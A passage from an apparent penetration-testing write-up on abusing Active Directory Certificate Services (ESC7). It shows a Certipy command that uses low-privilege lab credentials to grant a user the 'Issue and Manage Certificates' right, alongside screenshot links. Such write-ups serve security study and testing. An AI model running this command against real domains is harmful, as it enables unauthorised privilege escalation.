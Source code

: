 <img src="/images/2022-09-16/esc7_exploit1.png"> 

You can now stick to [ESC6](#esc6).  

#### Certipy  

Certipy can be used in this scenario to give a user the ``Issue and Manage Certificates`` right.  

```
certipy ca -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -add-officer 'ds'
```  

<img src="/images/2022-09-16/esc7_exploit2.png">  

<img src="/images/2022-09-16/esc7_exploit3.png">  